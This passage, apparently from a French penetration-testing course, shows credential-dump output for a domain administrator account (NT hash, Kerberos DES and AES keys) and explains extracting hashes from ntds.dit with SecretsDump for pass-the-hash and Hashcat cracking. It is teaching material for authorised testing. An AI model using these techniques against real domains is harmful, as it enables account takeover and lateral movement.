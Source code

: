 ```
DiscrétionnaireAclProtégée, Auto-parentale
Propriétaire : S-1-5-21-669053619-2741956077-1013132368-512
secrets
   NTHash : cf3a5525ee9414229e66279623ed5c58
   LMHash :
   NTHashHistory :
   LMHashHistory :
   Informations d'identification supplémentaires :
     Effacer le texte:
     NTLMStrongHash : 7790d8406b55c380f98b92bb2fdc63a7
     Kerberos :
       Crédits:
         DES_CBC_MD5
           Clé : d60dfbbf20548938
       Anciennes informations d'identification :
       Sel : WIN-NB4NGP3TKNKAdministrateur
       Drapeaux : 0
     KerberosNouveau :
       Crédits:
         AES256_CTS_HMAC_SHA1_96
           Clé : 5db9c9ada113804443a8aeb64f500cd3e9670348719ce1436bcc95d1d93dad43
           Itérations : 4096
         AES128_CTS_HMAC_SHA1_96
           Clé : 94c300d0e47775b407f2496a5cca1a0a
           Itérations : 4096
         DES_CBC_MD5
           Clé : d60dfbbf20548938
           Itérations : 4096
       Anciennes informations d'identification :
       Anciens identifiants :
       Identifiants de service :
       Sel : WIN-NB4NGP3TKNKAdministrateur
       Nombre d'itérations par défaut : 4 096
       Drapeaux : 0
     WDigest :
Identifiants clés :
Itinérance des identifiants
   Créé:
   Modifié:
   Crédits:

```

#### Extraction de hachages à l'aide de SecretsDump

Nous pouvons également utiliser `SecretsDump` hors ligne pour extraire les hachages du fichier `ntds.dit` obtenu précédemment. Ceux-ci peuvent ensuite être utilisés pour transmettre le hachage afin d'accéder à des ressources supplémentaires ou être piratés hors ligne à l'aide de `Hashcat` pour obtenir un accès supplémentaire. En cas de piratage, nous pouvons également présenter au client des statistiques de piratage de mot de passe pour lui fournir un aperçu détaillé de la force et de l'utilisation globales du mot de passe dans son domaine et fournir des recommandations pour améliorer sa politique de mot de passe (augmentation de la longueur minimale, création d'un dictionnaire de mots interdits, etc. ).

